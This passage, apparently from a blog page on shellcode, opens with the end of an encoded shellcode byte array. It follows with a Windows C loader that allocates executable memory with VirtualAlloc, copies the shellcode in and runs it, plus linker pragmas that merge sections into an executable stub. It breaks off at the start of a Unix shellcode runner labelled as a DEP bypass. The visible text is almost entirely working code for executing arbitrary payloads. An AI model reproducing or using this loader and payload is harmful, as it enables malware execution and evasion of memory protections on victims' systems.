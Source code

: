 "\xd2\x59\x70\x42\x47\x2b\x35\xe7\xb5\x03\x70\xe7\x29\x09\x76"
"\xac\x7c\x89\x65\x93\x62\x8e\x1c\x91\xfb\xf9\x73\x67\xf2\x68"
"\x6e\x06\x11\x30\xb0\x28\x89\xcc\x66\x3e\x44\x05\xfa\x8f\x50"
"\x42\x23\xb5\xa8\x29\xa2\x99\x14\xb8\x79\x67\xc7\x45\x25\x6e"
"\x1b\x56\xad\xe9\x9e\x2c\x0e\xc8\x48\xbe\xad\x02\x44\xc4\x64"
"\x5b\x85\xe9\x87\x23\xef\xd8\x47\x27\x26\xf8\x2e\x50\xde\xf1"
"\x29\x6b\x68\x3b\xc1\x41\x65\xdc\x58\x14\x85\x1e\xc5\x20\xbf"
"\xe6\xd5\xb9\xbb\x44\x68\x3f\x77\x0f\x7c\xad\xe5\xc0\x73\x06"
"\xa0\x71\x1c\xb0\x7a\x25\x31\x9c\xe5\xaf\x01\x09\x0b\x2e\xf3"
"\x9a\x18\x50\xe8\x47\x03\x7f\x25\x32\x88\xdb\x3a\x2a\x93\x12"
"\xf8\x2a\xf4\x12\xf2\x23\xa6\x98\x67\xfd\xe7\xa2\xc8\x90\xc8"
"\x9c\x72\x80\xf7\xfe\x23\x54\x6c\xd8\x64\x4a\x23\x2e\x2a\x19"
"\x09\x95\x98\xa5\x14\x01\x33\x56\xee\xd5\x62\xac\x60\x4d\xe2"
"\x98\x3b\xaf\x86\x04\x79\x61\x91\xe6\x46\x1f\x0b\xc9\x66\x63"
"\x5d\x4f\x57\x3d\x8d\x96\x1a\x64\x34\xab\xe5\xa6\x39\xd7\x92"
"\x10\x05\x41\x0b\x0b\xef\x06\xf7\xfa\x28\x67\xc2\x44\x75\xd6"
"\xef\x4f\xa0\xa2\x93\x3d\xad\x20\xb6\x19\xc4\xfa\xd7\x0e\x6b"
"\x3a\x0e\xcc\x75\xf7\xa2\xf0\x6d\x09\xc0\xf1\x37\x12\x06\x2c"
"\xa9\x69\xf6\x3e\xc5\x2d\xea\x69\x42\x22\x60\x5b\x6b\xf2\x6f"
"\x61\xe9\x93\x19\xc1\x97\x9f\xe9\x45\x03\x1b\xe8\x3f\xaa\xe5"
"\xda\xc3\x8d\x89\xd4\x5d\xf0\x7c\xc4\x4d\x40\x20\xb2\xaa\x29"
"\x40\xfd\x67\xcf\x91\x18\xe5\xb4\x75\x21\x21\x89\x71\xa1\x9a"
"\x05\xd5\x39\x48\x2d\xcf\xa1\x29\x9e\xd5\x5e\x3c\xfb\xc6\x8b"
"\xc1\xaf\x1d\x9e\x4d\x46\x05\x94\x61\xbb\x28\xb2\xe9\xff\xe5"
"\xfd\x58\xfe\x3c\xc0\xd9\x47\xaf\x79\xf5\x39\x1d\xcc\x64\x89"
"\xbc\x5b\x87\xab\x36\x26\xd5\xd3\x18\x01\x2d\xd5\xd1\xe3\xb6"
"\x0e\x37\x52\x8c\x70\x12\x9e\x67\xd9\x22\xe7\xa4\xc3\x01\x4b"
"\x7c\x43\xf9\xc1\x28\xf4\x65\xef\xb1\x53\x89\x81\x33\x09\xdc"
"\xae\x27\xf5\xa6\x36\x1b\xf9\x2d\xb7\xaf\x6d\x62\x0c\x10\xf1"
"\xfc\x3e\x07\x84\xc9\x08\x18\x91\xbd\x50\x07\xbb\x76\xb8\x0f"
"\x2d\xcc\x18\x3c\xa4";

// call windows API 
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
 LPSTR szCmdLine, int iCmdShow) {
typedef void (*fp)();
 /* alloc in heap the shellcode*/
 void * heap = (void *)VirtualAlloc(
 NULL,
 4096,
 MEM_COMMIT | MEM_RESERVE,
 PAGE_EXECUTE_READWRITE 
 );
// copy shellcode in memory alloc 
CopyMemory(heap, shellcode, sizeof shellcode);
fp func = (fp)heap;
 (*func)(); // execute shellcode
return 0;
}
#pragma section(".stub", execute, read, write)
#pragma code_seg(".stub")
#pragma section(".stubdata", read, write)
#pragma comment(linker,"/MERGE:.stubdata=.stub")
#pragma data_seg(".stubdata")
#pragma const_seg(".stubdata")
#pragma code_seg(".stub")
{% endhighlight  %}
<h3> Shellcode Unix Exec</h3>
{% highlight c++ %}
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>
// bypass DEP Unix 